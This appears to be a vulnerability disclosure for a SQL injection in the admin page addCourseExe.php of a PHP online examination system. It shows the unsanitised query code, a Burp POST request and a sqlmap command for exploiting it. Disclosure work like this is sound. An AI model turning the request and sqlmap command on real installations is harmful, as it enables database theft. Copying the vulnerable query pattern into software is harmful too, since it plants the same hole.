 ## Online Examination System With Timer

## SQL Injection on `addCourseExe.php`

### Vendor Homepage:

```
https://www.campcodes.com/projects/php/online-examination-system-with-timer/
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/adminpanel/index.php
admin@username
admin@password
```

### Affected Page:

```
/adminpanel/admin/query/addCourseExe.php
```

The potential injection point is located in `addCourseExe.php`. This file directly utilizes the `$course_name`  variables to construct a database query without employing parameterized queries or proper data sanitization measures.

```php
# addCourseExe.php
extract($_POST);
$course_name = strtoupper($course_name);
$selCourse = $conn->query("SELECT * FROM course_tbl WHERE cou_name='$course_name' ");
if($selCourse->rowCount() > 0)
{
	$res = array("res" => "exist", "course_name" => $course_name);
}
else
{  
	$insCourse = $conn->query("INSERT INTO course_tbl(cou_name) VALUES('$course_name') ");
	if($insCourse)
	{
		$res = array("res" => "success", "course_name" => $course_name);
	}
	else
	{
		$res = array("res" => "failed", "course_name" => $course_name);
	}
}
```

### Proof of Concept:

**Burp Request:**

```
POST /adminpanel/admin/query/addCourseExe.php HTTP/1.1
Host: 192.168.150.131
Content-Length: 44
Accept: application/json, text/javascript, */*; q=0.01
DNT: 1
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.150.131
Referer: http://192.168.150.131/adminpanel/admin/home.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=a3630ea0258c281edaea4e92c6a98410
x-forwarded-for: 8.8.8.8
Connection: close

course_name=name
```

```
python sqlmap.py -r 1.txt --current-user --batch --dbms mysql --no-cast
```

**Screenshot:**

![image-20240513173700757](./screenshot/image-20240513173700757.png)
